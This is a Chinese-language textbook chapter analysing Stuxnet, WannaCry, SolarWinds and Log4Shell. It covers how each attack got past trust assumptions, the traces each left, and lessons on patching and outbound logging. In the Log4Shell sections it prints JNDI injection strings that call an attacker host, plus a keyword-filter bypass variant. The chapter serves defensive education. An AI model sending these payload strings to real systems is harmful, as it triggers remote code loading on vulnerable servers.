


# 第十七章　四场攻击的解剖

2010 年 6 月，白俄罗斯一家规模不大的安全公司接到客户求助，机器反复蓝屏，重启后没多久又蓝屏。查下去发现一个从没见过的驱动，签名是合法的，来自一家台湾的芯片厂商。样本被传到网上之后，事情很快失控，这个名为 Stuxnet 的东西里塞了四个当时没人知道的漏洞，其中一个的复杂度已经超出“炫技”的范畴。

往后十一年，每隔几年就会出现一次同级别的公开事件。2017 年的 WannaCry，2020 年的 SolarWinds，2021 年的 Log4Shell。四次事件的技术手段完全不同，目标也不同，一个是离心机，一个是医院，一个是政府邮箱，一个是全世界的 Java 服务器。

这一章按时间顺序把它们拆开看。不是为了记住年份和名字，而是想看一件更具体的事，大门是从哪一侧被打开的。

## 17.1 2010：Stuxnet 与离心机

伊朗纳坦兹的铀浓缩厂有一批 IR-1 型离心机，几千台机器分成级联，把六氟化铀里的铀-235 一点点提纯。离心机的转速极高，转子和壳体之间的间隙很小，转速偏离设计值会引发共振，轻则停机，重则解体。所以控制转速的变频器是整个厂里最不能出事的部分。

这里的网络是断开的。厂区的控制网络和互联网之间没有连接，这就是所谓的物理隔离，业内叫气隙（air gap）。理论上，任何从外面来的恶意代码都无法越过这段空白。

Stuxnet 走的是人。它先在互联网上感染普通 Windows 机器，然后等着被写进 U 盘。U 盘一旦插进内网机器，它利用 Windows 解析快捷方式时的漏洞自动执行，不需要用户点开任何东西。这一步跨过了气隙，靠的不是技术，而是工程师本来就要在两个世界之间来回搬文件这个事实。

进了内网之后，它要找的是装了西门子 Step 7 工程软件的机器。找到之后，它利用西门子 S7-315 和 S7-417 两款 PLC 的通讯协议漏洞，把自己写进 PLC 的控制逻辑里。为了不被发现，它会拦截工程软件对 PLC 的读取请求，把事先录好的正常数据放回去；操作员在监控画面上看到的转速、压力、阀门状态，全都是几天前的录像。

实际操作发生在离心机上。恶意逻辑在特定条件下修改变频器的输出频率，让转速在正常范围之外反复变化，持续一段时间之后再恢复。厂里的人只看到一批离心机莫名损坏，更换，再损坏。据后来的分析，受损的离心机约一千台。

它难被发现，是因为它几乎不像恶意软件。不联网、不偷数据、不加密文件、不给自己留后门，任务完成之后还会把自己清掉。它在每台机器上只做一小段判断，条件不满足就沉睡，所以安全公司拿到的样本里，大部分代码从未被执行过。这种克制只可能出自一个明确知道目标长什么样的团队。

<figure>

<figcaption>图 17-1　Stuxnet 从外部网络到离心机的六跳。气隙确实隔断了网络，但没有隔断人，也没有隔断工程软件与 PLC 之间的那条线。</figcaption>
</figure>

让这件事被记住的不是破坏力，而是工程量。四个 0 日漏洞分别负责传播、提权和伪装；驱动用偷来的厂商数字证书签名，好让 Windows 认为它是正规硬件驱动；恶意代码还会判断自己是不是跑在分析环境里，不是就自杀。安全研究者 Ralph Langner 在 2013 年的一次演讲里把它拆成“一个人对着图纸慢慢搭出来的东西”，每个零件都不算高深，合起来是一台专用机床。

## 17.2 2017：WannaCry 与一个域名

2017 年 3 月，微软发布了一个补丁，修的是 SMB 协议实现里的一个远程代码执行漏洞，编号 MS17-010。SMB 是 Windows 用来共享文件和打印机的协议，445 端口，局域网里到处都是。那个补丁装下去只需要重启一次。

一个月后，一批漏洞利用工具被公开。这些工具据信来自美国国家安全局，被一个叫 Shadow Brokers 的团体泄露出来，其中一个利用代码被命名为 EternalBlue，针对的正是 MS17-010。当时还有大量机器没打补丁，包括一些不能随便重启的生产系统和早就停止支持的老系统。

5 月 12 日，WannaCry 开始传播。它和以前的勒索软件不一样，不需要用户点开附件，不需要挂马网页。它扫描网络上开放 445 端口的主机，用 EternalBlue 直接拿到系统权限，落下一份加密程序，然后以这台机器为跳板继续扫描。整个过程自动，速度快得像是有人在机房里挨个插盘。

两天之内，一百五十个国家的约二十万台机器被加密。英国国家医疗服务体系受影响最严重，预约被取消，急诊转院，医生用纸笔记录，因为共享文件服务器和影像系统一起被锁了。

医院为什么这么脆，原因不在技术。医疗设备的软件更新要经过厂商认证，一台影像设备打补丁可能要停机、重新校准、重新走审批，干脆就不碰。系统一旦不能停，补丁就永远排在待办列表的最后。事后英国的审计报告指出，相关部门几年前就收到过关于老旧系统的风险提示，建议没有落到执行层面。同一件事在别处也在发生，只是没有上新闻。

它的停止方式近乎偶然。代码在加密之前会先向一个又长又乱的域名发起请求，如果域名能解析成功，程序就退出。作者的用意大概是留一个开关，方便自己在分析环境里关掉它。这个域名当时没有注册。英国研究员 Marcus Hutchins 注册了它，指向一台自己控制的服务器，全球的新感染随即停止。一个价值几十块钱的域名，终止了一场正在扩散的疫情。

值得多看一眼的是这里的时间结构。补丁发布到大规模爆发之间隔了两个月，这两个月里，漏洞的利用代码从“只有少数人知道”变成了“任何人都能下载”。防御方有窗口，只是没人把它关上。

## 17.3 2020：SolarWinds 与更新包

SolarWinds 是一家做 IT 运维软件的公司，它的 Orion 平台被大量企业和政府机构用来监控网络设备、服务器和应用。这类软件必须放在管理网里，必须能登录到几乎所有设备，还必须能往外发数据。换句话说，它天生就坐在信任的中央。

2020 年 12 月，安全公司 FireEye 披露自己被人入侵，攻击者拿走了他们的攻击工具。几天之后，事情的性质变了，FireEye 的调查指向一个更早的入口，SolarWinds 的 Orion 更新包。

攻击者没有去攻客户，他们去攻了软件的生产过程。他们在 Orion 的构建环境里植入了一段后门代码，让它跟着正常的源代码一起编译、一起打包、一起用 SolarWinds 的证书签名，然后放到官方的更新服务器上。2020 年 3 月到 6 月之间发布的几个版本里都有这段代码，约一万八千个客户下载并安装了它。

安装完成之后，后门并不会立刻动作。它先睡上两周，再检查自己所在的环境，域名是不是目标单位的、有没有常见的分析工具、网络是不是沙箱。一切正常才连回控制服务器，而且通信走的是 SolarWinds 自己的 Orion Improvement Program 协议，看起来就像软件在例行上报。控制端只对其中少数机器下发第二阶段的载荷，其余的保持静默。最终被进一步渗透的客户大约一百家。

这件事最值得琢磨的地方在于签名是有效的。代码签名能证明这个安装包出自 SolarWinds 的构建流程，不能证明这个流程本身干净。信任被转移了一次，从“这段代码是安全的”变成“这家公司的生产线是安全的”，而后一个命题客户根本无从验证。

现代软件几乎全部建立在这种转移之上。一个后端服务引入几十个直接依赖，间接依赖往往有几百个，每一层都是一次信任的让渡。一万八千个客户里只有约一百家被继续渗透，这个比例说明攻击者非常克制，也说明他们知道自己要什么。潜伏期约九个月，期间只做情报收集，不破坏，不加密，不惊动。

## 17.4 2021：Log4Shell 与一行日志

2021 年 12 月 9 日，一个漏洞的细节在公开渠道流传开来，编号 CVE-2021-44228，评分 10.0，满分。

出问题的是 Log4j 2，Java 世界里最常用的日志库之一。几乎每个 Java 后端都用它记录请求、错误和业务事件，而它通常藏在框架深处，开发者自己都没意识到在用。

漏洞来自一个叫 JNDI 的功能。JNDI 是 Java 的命名与目录接口，允许程序通过一个名字去查找远程对象，这个设计本来是为了让企业应用能从目录服务里取配置。Log4j 2 在格式化日志时支持 `${}` 形式的变量替换，其中一类替换会调用 JNDI。于是只要日志里出现这么一段字符串

```text
${jndi:ldap://attacker.example/a}
```

Log4j 就会主动向那个地址发起请求，把返回的对象加载进来执行。触发条件低到荒唐，一个 HTTP 请求头、一个用户名、一条聊天消息、一台设备上报的型号字段，只要它被写进日志，就足够了。攻击者不需要知道目标用什么框架，也不需要任何凭据，往所有能发请求的地方塞字符串就行。

位置决定了影响面。日志库被放在每个请求的入口和出口，任何一路输入都要经过它，出问题的不是某个功能，而是每条路上的收费站。

发现之后的最初几天，全网的扫描流量暴涨，因为利用成本实在太低，写一个循环发请求就能批量试。真正的麻烦在修补。Log4j 的副本散落在成千上万的框架、中间件、监控代理和硬件设备的固件里，有些设备的固件根本不允许你替换里面的 jar 包。一个团队可能花一周才能确认自己所有的系统里哪些用了 Log4j，而攻击者只需要一分钟就能试一次。

处置办法有三层，能升级就升级，升不了的改 JVM 参数关掉消息查找，或者直接删掉那个负责 JNDI 的类文件，再不行就在网络边界上拦住出站的 LDAP 和 RMI 连接。三层里只有第一层算真正修好，后两层都是把门焊死，问题还在墙里面。更麻烦的是最初的补丁并不完整，之后又连着发了几个版本，每一个都对应一个新的编号。打补丁从来不是一次动作，而是一段时间。

## 17.5 共同点

<figure>

<figcaption>图 17-2　四起事件各自击穿信任链的哪一环。填色的格子是入口，其余各环在事件中都是完好的，这正是它们能长期潜伏的原因。</figcaption>
</figure>

四起事件放在一起，最显眼的共同点是它们都没有猜密码。

没有一起是靠暴力破解、靠字典、靠撞库进来的。攻击者做的事情更省力，他们找到系统本来就要信任的某样东西，然后把自己伪装成那样东西。Stuxnet 伪装成一个合法签名的硬件驱动，伪装成工程师的 U 盘，伪装成 PLC 里本来就有的功能块。WannaCry 利用的是一个已经公开、已经修复、但还没被装上的补丁，它赌的是运维的时间差。SolarWinds 伪装成厂商的更新包，客户是自己点下安装的。Log4Shell 则连伪装都不需要，日志库本来就该去解析那段字符串。

第二个共同点是单点。一个 PLC 型号，一个没注册的域名，一台构建服务器，一行默认开启的配置开关。四次事件里，攻击者都只需要在一个点上成立，剩下的会自动扩散。这也解释了为什么它们的规模差距那么大：Stuxnet 只影响一种离心机，因为它只想影响那一种；Log4Shell 影响半个互联网，因为它没打算挑。

第三个是时间。Stuxnet 在 2007 年前后就已经在运行，2010 年才被发现；SolarWinds 从植入到披露潜伏了约九个月；WannaCry 从补丁发布到爆发两个月；Log4Shell 从公开到大规模扫描只有几个小时。公布与利用之间的窗口在缩短，而且缩短的速度比修补的速度快。这件事本身比任何一个具体漏洞都更值得记住。

还有一个共同点不太技术。四起事件里，被击穿的那一环都不是“某台机器有 bug”，而是“某个流程里有一个默认的信任”。工程师的笔记本可以进出内网，是因为他需要；更新包可以直接装，是因为它签名有效；日志里的字符串可以被解析，是因为那样方便。每一个默认的信任当初都有正当理由，它们也都在某一天变成了入口。

## 17.6 四条能落地的线索

四起事件在事后看都留下了痕迹，只是痕迹出现的位置不一样。把它们摆在一起，能看出一件事，检测的抓手从来不是“识别恶意意图”，而是“找出正常流程里不该出现的那一步”。

Stuxnet 的痕迹在驱动和文件上。它带的两个驱动叫 `mrxcls.sys` 和 `mrxnet.sys`，签名用的是瑞昱（Realtek）的一张合法证书。证书本身是真的，签名校验会通过，异常之处在于一家芯片公司不该让这种驱动在没有对应硬件的机器上加载。它跨过气隙的入口是 U 盘根目录里的一个 `.lnk` 文件，利用 Windows 解析快捷方式时的漏洞，编号 CVE-2010-2568，用户只要在资源管理器里点开那个盘符就等于执行了它。这个漏洞的补丁发布于 2010 年 8 月，Stuxnet 被发现是同年 6 月，补丁比事件晚了两个月。

WannaCry 的痕迹在网络流量上。它的扫描模块对随机生成的地址段发 445 端口的连接请求，成功之后用 EternalBlue 拿权限，落地的服务名是 `mssecsvc`，加密模块则改名叫 `tasksche.exe`。一台机器在几分钟里对成百上千个不重复的地址发起 445 连接，在流量图上是一道很陡的斜线，正常业务不会长成这个样子。

SolarWinds 那条路留下的痕迹在出网方向。后门叫 SUNBURST，回连时把受害主机的名字编码，拼成一个子域名，形如 `abcdef.appsync-api.us-east-1.avsvmcloud.com`，再用 HTTP 请求送出去。请求本身看着像软件在查更新，异常在于目标域名不是厂商的官方域名，以及一台内网服务器从来没有理由对这么长的随机子域名发请求。

Log4Shell 的痕迹最容易被忽略，因为它就躺在日志里。一次最朴素的探测长这样

```text
${jndi:ldap://203.0.113.9:1389/a}
```

绕过关键字过滤时会写成 `${${lower:j}ndi:ldap://...}`，用日志库自己的变量替换把 `jndi` 拆成两半。所以处置的第一步是搜日志，`grep -r 'jndi' /var/log` 这条命令在 2021 年 12 月被很多人敲过一遍。搜到不代表利用成功，但代表有人在敲门，值得顺着这条记录去看那台机器当时有没有出站的 LDAP 连接。

四条线索的共性是没有一条要求你先理解攻击者的目的。它们都是“这一步不该出现在这个位置”，然后把这一步拦下来，或者至少记下来。

也要说清楚这套办法在哪里失效。Stuxnet 的痕迹需要有人去看驱动列表，而内网里没有日志系统，事后只能靠外部报告倒推；SolarWinds 那一跳用的是系统自带的管理工具，落在磁盘上的每一个文件都是微软签名的，行为检测看到的全是正常运维；Log4Shell 如果目标根本没有开日志，或者日志只存在本地且七天就轮转，痕迹就随磁盘一起没了。痕迹的存在依赖于采集，采集依赖于事先决定要记什么，而“要记什么”这个问题在出事之前很难答对。

这四起事件的应付办法，最后都落在同一件事上，把“异常”定义得比“恶意”宽一点。恶意需要判断，异常只需要对比。

## 17.7 窗口期是怎么被花掉的

把这四件事排成时间线，会看到同一个结构，一个漏洞从“存在”走到“人人可用”，中间有一段谁都没用上的时间。

WannaCry 这条线最清楚。2017 年 3 月 14 日微软发布 MS17-010 的补丁，同一批漏洞的利用工具在一个月后的 4 月 14 日被 Shadow Brokers 公开，5 月 12 日蠕虫开始跑。补丁比工具早一个月，工具比爆发早一个月。这段时间足够一个中等规模的单位把所有对外暴露的 Windows 机器找出来、补上、重启一遍，实际做到的比例很低。

Log4Shell 这条线几乎没有窗口。漏洞在 11 月下旬报告给 Apache，12 月 9 日细节和利用方式一起流出，之后几个小时内全网扫描量就上来了。从“公开”到“有人在试”的距离是小时级，因为利用方式是发一个字符串，不需要写代码，不需要工具，也不需要理解原理。

SolarWinds 反过来，窗口很长但没人知道它开着。后门在 2020 年 3 月到 6 月之间随更新包发出去，到 12 月 13 日才被披露，中间约半年。这半年里一万八千个客户都装了它，其中大部分从头到尾没有出现过异常，因为后门对绝大多数机器保持静默。

三种窗口形状对应三种失败。WannaCry 是知道该做什么但做不完，Log4Shell 是根本没有时间反应，SolarWinds 是连有东西要防都不知道。防御的投入要按这三种形状分开算，不能平均摊在“安全意识”这个词上。

能落地的动作有三条。

补丁要带截止时间。多数单位有补丁流程，缺的是优先级。修一个正在被利用的漏洞和修一个只在实验室里能复现的漏洞走同一套审批，等于把紧急的事排在了不紧急的事后面。判断依据可以很朴素，看这个漏洞有没有公开的利用代码，有没有在野利用的报告，两个都是“是”就走加急通道。

出网方向要留记录。SolarWinds 那次，如果出网日志里能看见一台数据库服务器向陌生域名发 HTTPS 请求，调查就能早几个月开始。出网日志的价值高于入网日志，因为入网流量太多太杂，出网流量少而规律，异常更容易浮出来。

“这东西为什么会执行”要当成常规问题。U 盘插进来为什么自动跑，文档打开为什么会调用外部程序，日志里的字符串为什么会变成一次网络请求。这三件事在各自的年代都是为了让工作方便一点，后来都在某一天变成了入口。

知道了这一点，防御的方向就清楚了。不是把每一台机器都加固到极限，而是找出那些默认的信任，给每一个加一道检查。这件事的具体做法，是最后一章的内容。
